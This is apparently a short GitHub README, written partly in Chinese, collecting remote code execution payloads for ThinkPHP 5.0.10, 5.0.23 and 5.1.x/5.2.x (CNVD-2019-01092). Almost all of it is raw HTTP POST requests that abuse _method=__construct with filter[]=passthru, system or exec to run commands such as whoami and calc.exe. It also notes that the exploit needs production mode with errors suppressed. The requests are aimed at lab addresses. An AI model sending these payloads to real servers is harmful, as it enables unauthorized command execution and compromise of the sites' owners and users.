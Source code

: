 # thinkphp_rce_check

CNVD-2019-01092

## thinkphp 5.0.10 版本 

```
POST /tp5010/public/index.php?s=index/index/index HTTP/1.1
Host: 10.67.9.24
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:64.0) Gecko/20100101 Firefox/64.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.67.9.24/tp/public/index.php?s=index/index/index/trytr
Content-Type: application/x-www-form-urlencoded
Content-Length: 60
Connection: close
Upgrade-Insecure-Requests: 1

s=whoami&filter%5B%5D=passthru&_method=__construct&method=
```

## thinkphp 5.0.23版本

```
POST /tp5023/public/index.php?s=captcha HTTP/1.1
Host: 10.67.9.24
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:64.0) Gecko/20100101 Firefox/64.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Connection: close
Content-Length: 80

_method=__construct&filter[]=passthru&method=get&server[REQUEST_METHOD]=whoami
或者
_method=__construct&filter[]=system&method=GET&get[]=whoami
```

## thinkphp 5.1.x/5.2.x

利用条件:生产模式/即忽略异常提示，否则会报500错误

```
POST /tp5132/public/index.php HTTP/1.1
Host: 10.67.8.117:8889
Content-Length: 58
Cache-Control: max-age=0
Origin: http://10.67.9.24
Upgrade-Insecure-Requests: 1
DNT: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: http://10.67.9.24/tp5132/public/index.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8

c=exec&f=calc.exe&&_method=filter&
```
设置`error_reporting(0);`版本不同，位置不一样，一般在start.php或者index.php
![Snipaste_2019-01-15_17-40-44.png](https://i.loli.net/2019/01/15/5c3dbc72305e1.png)
![Snipaste_2019-01-15_17-41-27.png](https://i.loli.net/2019/01/15/5c3dbccf8756e.png)
![Snipaste_2019-01-15_17-38-28.png](https://i.loli.net/2019/01/15/5c3dbd30d80fb.png)


